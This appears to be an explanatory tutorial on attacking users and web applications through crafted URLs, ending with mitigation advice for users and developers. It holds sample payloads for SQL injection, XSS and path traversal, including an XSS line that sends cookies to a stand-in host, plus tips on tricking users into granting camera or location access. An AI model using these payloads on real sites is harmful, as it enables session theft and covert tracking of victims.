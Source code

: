 System hacking via URLs involves exploiting vulnerabilities in how web applications handle user inputs or process URLs. This can allow attackers to access sensitive information such as a device's camera, location, or even passwords. Below is an explanation of the techniques, potential risks, and mitigation methods.

Key Methods for System Hacking via URL
1. Phishing URLs
Phishing URLs are crafted to deceive users into providing sensitive information like passwords or other personal data.

Techniques:

Use a URL similar to legitimate domains (e.g., g00gle.com instead of google.com).
Include parameters that simulate login pages.
Redirect users to malicious sites.
Example:

html
Copy code
https://malicious-site.com/login?redirect=https://legit-site.com
Tools:

Social-Engineer Toolkit (SET): Creates phishing campaigns.
Evilginx: A man-in-the-middle attack tool.
2. Malicious Query Parameters
Attackers append malicious query parameters to URLs, exploiting application vulnerabilities.

Examples:

SQL Injection:
bash
Copy code
https://example.com/login?username=admin' OR '1'='1&password=anything
XSS (Cross-Site Scripting):
bash
Copy code
https://example.com/search?q=<script>alert('hacked')</script>
Result: These can steal cookies, session tokens, or even camera permissions if combined with malicious scripts.

3. Exploiting Open Redirects
An open redirect vulnerability allows attackers to redirect users to malicious websites.

Example:

bash
Copy code
https://example.com/redirect?url=https://malicious-site.com
Risk: Combine open redirects with phishing for greater impact.

4. Capturing Geolocation
Modern browsers allow geolocation access via JavaScript, but user consent is required. Attackers can create convincing scenarios to trick users.

Code Example:

javascript
Copy code
if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(function(position) {
        alert("Latitude: " + position.coords.latitude + 
              ", Longitude: " + position.coords.longitude);
    });
}
Method:

Embed the code in a malicious webpage and encourage users to click a URL.
5. Accessing Camera and Microphone
Exploiting permissions to access the camera or microphone via malicious URLs.

Techniques:

Use WebRTC (Web Real-Time Communication) APIs.
Create a fake "allow access" button.
Code Example:

javascript
Copy code
navigator.mediaDevices.getUserMedia({ video: true, audio: false })
    .then(function(stream) {
        video.srcObject = stream;
    })
    .catch(function(err) {
        console.log("Error: " + err);
    });
Risk: Capture video or audio without explicit consent if permissions are misconfigured.

6. Stealing Cookies and Session Tokens
Cookies often store sensitive data like session tokens. Attackers use Cross-Site Scripting (XSS) to steal cookies.

Example:
html
Copy code
https://example.com/vulnerable-page?input=<script>document.location='https://malicious-site.com?cookie='+document.cookie</script>
7. Exploiting File Downloads
URLs can be crafted to download malicious payloads, leading to Remote Code Execution (RCE).

Example:

bash
Copy code
https://example.com/download?file=../../windows/system32/cmd.exe
Risk: If the server does not sanitize input, it could execute or serve harmful files.

8. Browser-Specific Exploits
Some exploits target browser vulnerabilities directly using crafted URLs.

Example: Exploiting outdated browsers to run arbitrary JavaScript commands.
Tools:
BeEF (Browser Exploitation Framework): Hooks browsers for exploitation.
9. URL Shorteners
URL shorteners can obscure malicious links, making them harder to detect.

Example:
A shortened URL (bit.ly/malicious) redirects to a phishing page or malware.
How Attackers Combine Techniques
Phishing with Geolocation: Create a fake login page that also requests location.
Camera with XSS: Use XSS to inject a script accessing the camera.
Redirection and Payload Delivery: Redirect users to download malicious files or payloads.
Prevention and Mitigation
For Users:

Verify the authenticity of URLs before clicking.
Use security software and browser extensions to block malicious scripts.
Disable unnecessary browser permissions for camera, microphone, or location.
For Developers:

Sanitize user inputs to prevent XSS and SQL injection.
Avoid open redirects or validate all URL redirections.
Use HTTPS to encrypt data transmissions.
For Organizations:

Implement robust Content Security Policies (CSP).
Conduct regular vulnerability assessments.
Educate employees about phishing and social engineering tactics.
Tools for Ethical Testing
BeEF: Exploit browser vulnerabilities.
OWASP ZAP: Find vulnerabilities in web applications.
Burp Suite: Intercept and manipulate HTTP traffic.
Social-Engineer Toolkit (SET): Craft phishing URLs.
